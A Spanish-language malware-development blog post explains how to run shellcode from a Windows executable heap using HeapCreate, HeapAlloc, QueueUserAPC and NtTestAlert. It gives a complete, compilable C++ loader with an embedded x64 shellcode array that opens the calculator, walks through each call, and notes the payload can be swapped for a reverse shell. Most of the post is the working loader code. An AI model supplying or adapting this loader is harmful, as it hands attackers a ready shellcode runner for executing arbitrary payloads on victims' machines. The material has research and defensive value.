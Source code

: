 ```yaml
---
layout: post
title: Shellcode almacenada en el heap e inyección vía APC injection y NtTestAlert en un proceso local
author: c4rta
date: 2023-07-17
tags: [MalDev]
---
```


Esta vez vamos a almacenar la shellcode en el heap de un proceso local usando HeapCrate y HeapAlloc y la ejecutaremos con QueueUserAPC y la NTAPI indocumentada NtTestAlert

## Asynchronous Procedure Calls (APC) y QueueUserAPC()

De acuerdo a la MSDN, una APC es:

> Es una función que se ejecuta de forma asíncrona en el contexto de un subproceso en particular

Cada subproceso tiene un propia cola APC, y un subproceso debe estar en un estado de alerta para ejecutar un APC en modo de usuario, algunas formas de indicarle a un subproceso que este en modo de alerta es con las funciones ```SleepEx``` , ```SignalObjectAndWait```, ```MsgWaitForMultipleObjectsEx```, etc.

La forma en la que podemos agregar una APC a la cola APC es usando ```QueueUserAPC```, la estructura de QueueUserAPC es:

```c++
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

- ```pfnAPC``` es un puntero a la APC que se llamara cuando el subproceso realiza una operacion de alerta
- ```hThread``` es el identificador del hilo 
- ```dwData``` es un valor que funciona como un parametro a ```pfnAPC```

## Flujo de ejecucion

- Crear un heap usando ```HeapCreate```
- Se asigna un bloque de memoria con ```HeapAlloc``` del tamaño de la shellcode en el heap creado con ```HeapCreate```
- Se escribe la shellcode en el bloque de memoria del heap usando ```WriteProcessMemory```
- Se encola una APC en el subproceso actual usando ```QueueUserAPC```
- Se llama ```NtTestAlert``` para forzar la ejecucion de la APC

### Codigo

```c++
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){
    myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
    LPVOID shellcodeHeap = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
    WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
    QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
    testAlert();

    return 0;
}
```

Pimero creamos un heap en donde le indicamos que en las opciones de asignacion tenga ```HEAP_CREATE_ENABLE_EXECUTE``` para que los bloques de memoria que se asignen permitan ejecutar codigo

```c++
HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
```

Despues asignamos un bloque de memoria donde le indicamos con ```HEAP_ZERO_MEMORY``` que la asignacion inicie con cero, y el tamaño de la asignacion sea el tamaño de la shellcode, por eso se usa ```sizeof(shellcode)```

```c++
HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
```

Despues escribimos la shellcode en el bloque de memoria del heap, se usa ```GetCurrentProcess()``` para que el identificador del proceso sea el identificador del proceso actual, el tamaño en bytes que se van a escribir es igual al tamaño de la shellcode, por eso se vuelve a usar ```sizeof(shellcode)```

```c++
WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
```

Despues declaramos ```apcRoutine``` como un puntero de tipo ```PTHREAD_START_ROUTINE``` el cual se le asignara la direccion de memoria que tiene ```shellcodeHeap```, con esto le indicariamos que la APC apunte a ```shellcodeHeap``` que es el bloque del heap que contiene la shellcode

```c++
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
```

Despues encolamos una APC a la cola APC, se le pasa ```(PAPCFUNC)apcRoutine``` para que ```apcRoutine``` sea interpretado como un puntero de tipo ```PAPCFUNC``` y sea una APC valida, tambien usamos ```GetCurrentThread()``` para que se use el identificador del hilo actual

```c++
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Y por ultimo mandamos a llamar a ```testAlert()``` para forzar la ejecucion de las APC encoladas en el hilo actual.

Si compilamos y ejecutamos se ejecutara la shellcode que la cual abrira la calculadora (evidetemente puedes cambiar la shellcode para que haga otra cosa, una reverse shell por ejemplo)

![](/assets/img/heap-queue/ejecucion.gif)

### Referencias

[https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

[https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert](https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert)

Eso ha sido todo, gracias por leer ❤
